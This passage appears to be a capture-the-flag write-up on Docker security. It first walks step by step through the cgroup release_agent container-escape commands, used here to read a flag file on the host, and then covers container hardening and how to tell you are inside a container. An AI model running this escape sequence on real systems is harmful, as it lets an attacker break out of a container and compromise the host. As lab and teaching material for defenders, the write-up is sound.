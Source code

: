     - cap_sys_time
 - [Proof of Concept](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so) 

What's happening during exploitation:
- ```mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x```
 - creates a group to use the Linux kernel to write and execute our exploit
- ```echo 1 > /tmp/cgrp/x/notify_on_release```
 - telling the kernel to execute something once the "cgroup" finishes
- ```host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` ```
 - find out where the containers files are stored on the host and store it as a variable
- ```echo "$host_path/exploit" > /tmp/cgrp/release_agent```
 - echo the location of the containers files into our "/exploit" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released
- ```echo '#!/bin/sh' > /exploit```
 - turn the exploit into a shell on the host
- ```echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit```
 - execute a command to echo the host flag into a file named "flag.txt" in the container, once "/exploit" is executed
- ```chmod a+x /exploit``` 
 - make the exploit executable
- ```sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"```
 - create a process and store that into "/tmp/cgrp/x/cgroup.procs"
- Explore the host OS

Task Question:

Contents of "flag.txt" from the host operating system
- thm{y********************s} 

## Task 12 - Securing Your Container
Principle of Least Privilege:
- Commands in docker run as root unless told otherwise
- Give your image the least amount of privileges needed to run
Docker Seccomp 101:
- "Secure Computing" is a feature of the linux kernel
- Docker uses security profiles for containers
 - Can deny actions such as using the mount namespace or any of the Linux system calls
Securing Your Daemon:
- In later docker installs, running a registry relies on a self-signed SSL certificate behind a webserver
- Certificates must be distributed and trusted on every device interacting with the container

## Task 13 - Determining if you're in a Container
- Containers have fewer processes running than the host OS
 - use ```ps aux``` to view running processes
- Look for the .dockerenv file
 - Located in the ```/ ``` directory
 - Use ```cd / && ls -lah``` to view hidden files and folders
- Cgroups are used by containerization software such as Docker or LXC.
 - Look for cgroups by going to ```/proc/1``` and catting the cgroups file
 - The cgroups file contains paths including the word docker

